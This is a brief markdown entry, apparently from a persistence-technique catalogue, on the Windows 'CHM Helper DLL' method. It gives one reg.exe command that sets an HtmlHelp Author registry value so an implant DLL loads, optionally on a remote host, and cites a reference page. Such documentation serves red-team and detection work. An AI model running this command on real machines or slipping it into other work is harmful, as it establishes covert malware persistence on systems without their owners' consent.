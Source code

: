 # CHM Helper DLL

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Software\Microsoft\HtmlHelp Author" /t REG_SZ /v location /d "C:\path\to\implant.dll"
```

---
## References

- [Persistence Info: `.chm` helper DLL](https://persistence-info.github.io/Data/htmlhelpauthor.html)